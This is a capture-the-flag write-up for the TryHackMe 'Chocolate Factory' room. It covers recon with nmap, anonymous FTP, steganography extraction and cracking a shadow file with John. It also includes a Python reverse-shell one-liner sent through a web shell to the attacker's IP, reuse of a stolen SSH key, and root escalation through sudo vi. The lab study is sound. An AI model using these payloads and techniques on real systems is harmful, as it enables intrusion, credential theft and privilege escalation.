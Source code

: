 # THM-Chocolate-Factory-WriteUp

Write up for https://tryhackme.com/room/chocolatefactory (Visit https://tryhackme.com/ for more)

# Setting up and information gathering

For this CTF I've set the record <BOX-IP> wonka in /etc/hosts.
  
By running syn scan (default mode when run as root) with nmap (`nmap -A wonka`) I found:
  
  FTP Server on port 21 allowing Anonymous login
  
  SSH Open port on port 22
  
  HTTP server on port 80
  
  Several open ports with the same hint ('Look somewhere else')
  
  A port with indicating a downloadable executable
  
 # Question #1
  
 By downloding the file indicated on the previous port and executing it I was asked a name, I tried several inputs with no success so further inspected the executable with strings (`strings key_rev_key`) and found this string:
 
  ``
   congratulations you have found the key:   
b'[*CENSORED*]'
``
  
 which turns out to be the answer to the first question
  
 # Question #2
  
Second question required the FTP connection:
  
  ```
└─# ftp wonka   
Connected to wonka.
220 (vsFTPd 3.0.3)
Name (wonka:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
226 Directory send OK.
ftp> get gum_room.jpg
local: gum_room.jpg remote: gum_room.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for gum_room.jpg (208838 bytes).
226 Transfer complete.
```
The donloaded file is a simple jpeg representing some bubbles, no clues in the pic
I was able to exctract a file with steghide with a blank password
  
 ```
  └─# steghide extract -sf gum_room.jpg                                                                                                                 
Enter passphrase: 
wrote extracted data to "b64.txt".
```
It is an base64 encoded file so I decoded it (`base64 -d b64.txt > b64dec.txt`) to reveal what is seems to be a /etc/shadow file
John (`john -w=/usr/bin/wordlist/rockyou.txt b64dec.txt`) was able to crack charlie's password

# Question #3
  
The password found is need to login in the HTTP server on port 80 which leads to a webshell (I tried to use it for ssh into the server but with no success)

Ncat and bash reverse shells was not exploitable but I was able to get a connection by using python reverse shell
So I started a listener on port 4242 on my machine (`nc -lvnp 4242`) and send this payload to the web shell `export RHOST="<MY-THM-IP>";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
`
  
In /home/charlies we found two interesting files: teleport adn teleport.pub which are ssh keys pair
I copied teleport (private key) on my host and set the right permissions (`chmod 600 teleport`)
Then I sshed in to the server as charlie by running `ssh charlie@wonka -i teleport` accomplishing the third question
  
# Question #4
  
Just `cat user.txt` placed in /home/charlie

# Question #5
  
Checking charlie's sudo permissions I found vi , a text editor which permits to run commands with the process permissions.

So I ran `sudo /usr/bin/vi` then in the editor `:! ls /root` which reveals a file named 'root.py`, once again in the editor I typed `:! python /root/root.py`, I was asked a key so I've inserted the key from the first question, a message told me I was now the owner of the Chocolate Factory and give me the answer to the last question

  
  
